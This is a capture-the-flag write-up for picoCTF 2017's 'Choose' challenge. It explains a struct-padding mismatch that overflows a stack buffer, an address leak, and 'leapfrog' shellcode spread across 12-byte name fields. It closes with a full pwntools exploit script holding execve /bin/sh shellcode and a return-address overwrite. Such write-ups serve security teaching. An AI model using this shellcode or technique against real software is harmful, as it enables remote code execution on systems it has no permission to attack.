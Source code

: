 # Choose (final challenge)
#### Writeup by hgarrereyn
* **Binary Exploitation**
* *150 points*
* Description: Unhappy that you can't choose which enemies to fight? Choose your own adventure! Source. Connect on shell2017.picoctf.com:47601. ASLR is not enabled.

# Overview

This program allowed the user to specify `11` enemy types to fight and assign each a `12 char` name. Then the user could fight each of these enemies and win various things.

After that, the user must fight a dragon that was hardcoded to be completely unbeatable.

However, in order to get the flag, you had to exploit the program to be able to get a shell remotely.

# Solution

The vulnerability was a wrong assumption that a group of structs were the same size in memory. Specifically, the programmer assumed that these structs were the same size (`0x14 bytes`):

```c
#define ENEMNAMELEN 12

typedef struct _orc{
    char type;
    short damage;
    int health;
    char name[ENEMNAMELEN];
} orc;

typedef struct _unicorn{
    char type;
    int health;
    short damage;
    char name[ENEMNAMELEN];
} unicorn;
```

Although both structs contain the same fields with the same types, they are specified in a different order. Therefore, due to struct packing the `unicorn` struct actually occupies `0x18 bytes`. The memory structures are as follows:

```
orc (0x14 bytes):

[ type ][ xxxx ][ damage       ]
[ health                       ]
[ name                         ]
[ name                         ]
[ name                         ]

unicorn (0x18 bytes):

[ type ][ xxxxxxxxxxxxxxxxxxxx ]
[ health                       ]
[ damage       ][ xxxxxxxxxxxx ]
[ name                         ]
[ name                         ]
[ name                         ]

```

Notice how the `unicorn` struct is unable to pack the `char` and `short` fields into one 4-byte space because the `int health` must be aligned.

Then later, the following array was created to store user-controlled enemy struct data:

```c
#define NUMMONSTERS 11
#define ENEMSIZE sizeof(orc)

char enemies[ENEMSIZE * NUMMONSTERS];
```

This error allowed an attacker to craft an input that caused a buffer overflow onto a saved return address. For example, if the attacker specified all unicorns, the storage functions would overflow the `enemies` array.

The return address could be overwritten with the address of shellcode placed on the stack.

ASLR was disabled so it was possible to hard-code the stack address that held our shellcode. However, in order to find it, you could simply use existing functionality in the program. See the following lines:

```c
void printEnemy(char * enemy){
    ...
    if(ctfer.wizardSight){
        printf("Your sight shows the enemy at %p\n", enemy);
    }
}
```

So if we had `wizardSight`, the program would print out stack addresses. How do we get that?

```c
void processWinnings(char type){
    switch(type){
        ...
        case 'T':
        case 't':
            printf("You found %s\n", winnings[5]);
            ctfer.wizardSight = 1;
            break;
    	...
    }
}
```

Ok, so in order to get a stack address, we simply have to fight a troll and beat it. Then we can calculate the offset to the first name buffer where we will store our shellcode.

However, we quickly run into a problem: the name buffer only stores `12 bytes` and there is no way we can fit exexcve shellcode into that small a buffer. However, we have `11` name buffers to use.

My solution was to use something I call "leapfrog shellcode" for lack of a better name. Basically, I split the shellcode into `<10 byte` sections (making sure to keep instructions intact). Then I appended short jump instructions that would jump to the next name buffer where execution could continue.

In memory that looked like this:

```
enemy 1:  [junk]
          [junk]
		  [junk]
          [shellcode]      <-- start address
          [shellcode]
		  [shellcode jmp] -.
enemy 2:  [junk]           |
          [junk]           | skip the struct junk
          [junk]           |
          [shellcode] <----'
          [shellcode]
          [shellcode jmp]

etc...
```

# Script

[**exploitChoose.py**]()

```python
# By Harrison Green <hgarrereyn>

from pwn import *

# Found on shell-storm.org:
# http://shell-storm.org/shellcode/files/shellcode-811.php

# Shellcode (/bin/sh on 32 bit)
# 08048060 <_start>:
 # 8048060: 31 c0                 xor    %eax,%eax
 # 8048062: 50                    push   %eax
 # 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 # 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 # 804806d: 89 e3                 mov    %esp,%ebx
 # 804806f: 89 c1                 mov    %eax,%ecx
 # 8048071: 89 c2                 mov    %eax,%edx
 # 8048073: b0 0b                 mov    $0xb,%al
 # 8048075: cd 80                 int    $0x80
 # 8048077: 31 c0                 xor    %eax,%eax
 # 8048079: 40                    inc    %eax
 # 804807a: cd 80                 int    $0x80

# Relative jump:
#  EB CB - where CB is a signed integer to be added to eip


# Modified leapfrog shellocode with added short jumps:

### Name 1
# 31 c0
# 50
# 68 2f 2f 73 68
name1 = '\x31\xc0\x50\x68\x2f\x2f\x73\x68' + '\xeb\x0e'

### Name 2
# 68 2f 62 69 6e
# 89 e3
# 89 c1
name2 = '\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1' + '\xeb\x0d'

### Name 3
# 89 c2
# b0 0b
# cd 80
# 31 c0
name3 = '\x89\xc2\xb0\x0b\xcd\x80\x31\xc0' + '\xeb\x0e'

### Name 4
# 40
# cd 80
name4 = '\x40\xcd\x80'


# Heap layout:
# <name 1 : 12 bytes>
# <junk : 12 bytes>
# <name 2 : 12 bytes> ...


sock = remote('shell2017.picoctf.com', 47601)

# Select 11 unicorns
sock.send(('u\n' * 11))

# Add shellcode
sock.send(name1 + '\n')
sock.send(name2 + '\n')
sock.send(name3 + '\n')
sock.send(name4 + '\n')

# Fill the rest of the names
for i in range(6):
	sock.send('name\n')

# jump to shellcode by overwriting the return address with 0xffffdb9a
sock.send('aa' + '\x9a\xdb\xff\xff' + '\n')

# flee unicorns
sock.send(('f\n' * 11))

# flee dragon
sock.send(('f\n' * 6))

# Game exits but actually jumps to shellcode

# We've got shell
sock.interactive()
```
